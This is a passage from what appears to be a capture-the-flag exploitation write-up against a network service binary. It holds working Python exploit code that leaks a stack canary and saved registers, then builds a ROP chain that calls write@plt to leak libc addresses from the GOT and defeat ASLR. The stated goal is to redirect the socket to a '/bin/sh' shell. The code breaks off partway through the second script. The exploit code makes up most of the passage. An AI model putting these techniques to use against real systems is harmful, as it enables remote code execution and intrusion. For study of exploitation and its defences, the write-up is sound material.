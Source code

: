 Lets write a small script to leak the canary and EBP:

```lang-python line-numbers 
def get_canary(ip, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    print("[+] Wating for menu")
    time.sleep(3)
    # Receive menu
    s.recv(1024)
    s.send("4\n")
    time.sleep(1)
    print("[+] Sending mouse trap")
    payload = "y" + "A"*9 + "\n"
    s.send(payload)
    # Receive "are you sure?"
    message = s.recv(60)
    # Receive canary
    message = s.recv(60)
    canary_group = re.match(".*yAAAAAAAAA\n(.*)'!.*", message)
    canary = struct.unpack("<I", "\x00" + canary_group.group(1)[:3])[0]
    ebp = struct.unpack("<I", canary_group.group(1)[11:15])[0]
    eip = struct.unpack("<I", canary_group.group(1)[15:19])[0]
    print "[+] Got canary %#x" % canary
    print "[+] Got saved ebp %#x" % ebp
    print "[+] Got saved eip %#x" % eip
    s.close()
    return (canary, ebp, eip)
```

![](/images/octopress/angrybird-8.png)

Ok, now that we know the canary we can use it to influence EIP without firing all the alarms. Since the stack is not executable we will need a ROP chain to get code execution. My idea is to redirect stdin, stdout and stderr to the opened socket and then redirect the code flow to the original call to execl("/bin/sh") present in the code. But since the system has ASLR enabled we need to leak a libc address to calculate **dup2** address.

Since the PLT contains interesting functions like read or write, we can interact with the application. For example we can use the ROP chain to call **write** and send any number of bytes to the socket, even the whole binary (interesting for Blind ROP techniques). What content are we interested in? what about a resolved address in the GOT so we can leak a libc function address? That way and since the offsets will be constant, we can calculate any function address in libc. This is the script to leak any address from the GOT:

```lang-python line-numbers 
def leak_address(ip, port, canary, ebp, address, socketfd):
    ss = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ss.connect((ip, port))
    print("[+] Reconnecting")
    time.sleep(3)
    # Receive menu
    ss.recv(1024)
    ss.send("4\n")
    time.sleep(1)
    # Receive "are you sure?"
    ss.recv(60)
    print("[+] Sending leakage payload")
    leak_payload = ["y"*10,
                p(canary),
                "B"*8,
                p(ebp),
                p(0x080486e0), # write@plt
                p(0x41414141), # exit
                p(socketfd),  # socket fd
                p(address),  # write@got: address to read write@libc from
```